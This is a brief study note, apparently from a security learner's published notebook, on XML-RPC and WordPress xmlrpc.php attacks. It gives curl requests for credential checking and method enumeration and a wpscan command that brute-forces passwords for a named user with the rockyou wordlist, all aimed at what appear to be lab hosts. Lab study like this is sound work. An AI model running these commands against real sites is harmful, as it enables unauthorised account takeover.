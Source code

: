 ```yaml
---
{"dg-publish":true,"permalink":"/xmlrpc/"}
---
```


- [XML-RPC](https://en.wikipedia.org/wiki/XML-RPC)
- [What is XML-RPC?](https://xmlrpc.com)

It's remote procedure calling using [[net/protocols/Hypertext Transfer Protocol\|HTTP]] as the transport and [[Extensible Markup Language\|XML]] as the encoding


```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

_List all the methods_

```bash
curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" http://83.136.249.246:54513/xmlrpc.php
```

## WordPress xmlrpc attacks

- [A Complete Guide on xmlrpc.php in WordPress (What It Is, Security Risks, How to Disable It)](https://kinsta.com/blog/xmlrpc-php/)
- [Avoid XML-RPC Attacks \| WordPress Developer's Guide](https://docs.pantheon.io/guides/wordpress-developer/xml-rpc-attacks)
- [XML-RPC/system.listMethods « WordPress Codex](https://codex.wordpress.org/XML-RPC/system.listMethods)


### Exploiting using [[wpscan\|wpscan]]

```bash1
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://94.237.55.43:56314
```